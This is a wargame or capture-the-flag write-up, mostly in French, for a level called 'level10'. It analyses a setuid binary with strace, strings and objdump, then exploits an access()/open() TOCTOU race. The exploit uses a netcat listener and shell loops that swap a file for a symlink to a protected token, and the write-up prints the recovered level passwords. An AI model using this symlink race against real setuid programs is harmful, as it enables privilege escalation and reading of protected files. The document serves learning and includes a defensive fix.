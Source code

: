LEVEL 10

------------------------------------------------------------------------------------------------------------------------

    find . -user level09 2> /dev/null | grep -v proc
                 flag09
    find . -perm /u=s,g=s 2> /dev/null | grep -v proc
    find . -type f -user flag09 -o -user level09
    find . -maxdepth 1 -name "*string*" -print

* Recherches


    strace ./level10

        write(1, "./level10 file host\n\tsends file "..., 65./level10 file host
            sends file to host if you have access to it
        ) = 65


    strings ./level10

        %s file host                                            ---> utile
        sends file to host if you have access to it
        Connecting to %s:6969 ..                                ---> utile
        Unable to connect to host %s
        .*( )*.
        Unable to write banner to host %s
        Connected!
        Sending file ..
        Damn. Unable to open file
        Unable to read from file: %s
        wrote file!
        You don't have access to %s

    objdump -d level10 | awk -F"\n" -v RS="\n\n" '$1 ~ /<main>/' | grep call

    804870e:	e8 0d fe ff ff       	call   8048520 <printf@plt>
    804871a:	e8 71 fe ff ff       	call   8048590 <exit@plt>
    8048749:	e8 92 fe ff ff       	call   80485e0 <access@plt>        --> Faille --> Access exploit - TOCTOU race (Time of Check to Time of Update)
    8048766:	e8 b5 fd ff ff       	call   8048520 <printf@plt>
    8048773:	e8 b8 fd ff ff       	call   8048530 <fflush@plt>
    804878f:	e8 5c fe ff ff       	call   80485f0 <socket@plt>
    80487cb:	e8 30 fe ff ff       	call   8048600 <inet_addr@plt>
    80487de:	e8 6d fd ff ff       	call   8048550 <htons@plt>
    8048805:	e8 06 fe ff ff       	call   8048610 <connect@plt>
    804881f:	e8 fc fc ff ff       	call   8048520 <printf@plt>
    804882b:	e8 60 fd ff ff       	call   8048590 <exit@plt>
    8048847:	e8 74 fd ff ff       	call   80485c0 <write@plt>          --> Ici que le token peut passer
    8048861:	e8 ba fc ff ff       	call   8048520 <printf@plt>
    804886d:	e8 1e fd ff ff       	call   8048590 <exit@plt>
    804887a:	e8 a1 fc ff ff       	call   8048520 <printf@plt>
    8048887:	e8 a4 fc ff ff       	call   8048530 <fflush@plt>
    804889b:	e8 00 fd ff ff       	call   80485a0 <open@plt>
    80488b2:	e8 a9 fc ff ff       	call   8048560 <puts@plt>
    80488be:	e8 cd fc ff ff       	call   8048590 <exit@plt>
    80488da:	e8 31 fc ff ff       	call   8048510 <read@plt>
    80488ea:	e8 e1 fc ff ff       	call   80485d0 <__errno_location@plt>
    80488f4:	e8 77 fc ff ff       	call   8048570 <strerror@plt>
    8048905:	e8 16 fc ff ff       	call   8048520 <printf@plt>
    8048911:	e8 7a fc ff ff       	call   8048590 <exit@plt>
    804892d:	e8 8e fc ff ff       	call   80485c0 <write@plt>          --> Ici que le token peut passer
    8048939:	e8 22 fc ff ff       	call   8048560 <puts@plt>
    8048950:	e8 cb fb ff ff       	call   8048520 <printf@plt>
    8048965:	e8 d6 fb ff ff       	call   8048540 <__stack_chk_fail@plt>

    1er constat : connect port 6969 de l'hote donné en string (second arg)

    fflush : fflush() is typically used for output stream only. Its purpose is to clear (or flush) the output buffer and move
    the buffered data to console (in case of stdout) or disk (in case of file output stream). Below is its syntax.
    
    
    echo Hello > /tmp/x
    ./level10 /tmp/x 127.0.0.1
        Connecting to 127.0.0.1:6969 .. Unable to connect to host 127.0.0.1
    
    nc -l 6969
    ./level10 /tmp/x 127.0.0.1

        -> Fonctionne, maintenant faut bypass le token
    

    https://stackoverflow.com/questions/7925177/access-security-hole
    La faille d'access peut permettre d'envoyer le token bien qu'on ait pas les droits de lecture
    Surtout que le open est fait bien après le access dont gap de temps en théorie suffisant
    [race condition]

    Extrait du man : 

     The result of access() should not be used to make an actual access control decision,
     since its response, even if correct at the moment it is formed, may be outdated at
     the time you act on it.  access() results should only be used to pre-flight, such as
     when configuring user interface elements or for optimization purposes.  The actual
     access control decision should be made by attempting to execute the relevant system
     call while holding the applicable credentials, and properly handling any resulting
     errors; and this must be done even though access() may have predicted success.

     Additionally, set-user-ID and set-group-ID applications should restore the effective
     user or group ID, and perform actions directly rather than use access() to simulate
     access checks for the real user or group ID.


    On va avoir besoin d'un client qui se connecte en permanence :
    
    1. ln -s ~/token /tmp/x

    2. vi /tmp/connect.sh

        #!/bin/sh
        while [ 1 ]
        do
            ~/level10 /tmp/x 127.0.0.1
        done

        sh /tmp/connect.sh
    
    3. nc -lk 6969
    
    Le problème ici est que la race condition n'est "s'ouvre" jamais car access ne fait pas d'erreur à proprement parlé, enfin ses prédictions sont juste disons
    Donc il faut ajouter de quoi "tromper" access

    4. 
       #!/bin/sh
       while [ 1 ]
        do
            rm -rf /tmp/x
            touch /tmp/x
            # Race condition here
            ln -s ~/token /tmp/x
        done

    su flag10 woupa2yuojeeaaed06riuj63c
    getflag
    su level11 feulo4b72j7edeahuete3no7c


* Solution

------------------------------------------------------------------------------------------------------------------------

NB : 
That is a TOCTOU race (Time of Check to Time of Update). A malicious user could substitute a file he has access to for a symlink to something he doesn't have access to between the access() and the open() calls. Use faccessat() or fstat(). In general, open a file once, and use f*() functions on it (e.g: fchown(), ...).

NB : nc -lk =  Forces nc to stay listening for another connection after its current connection is completed


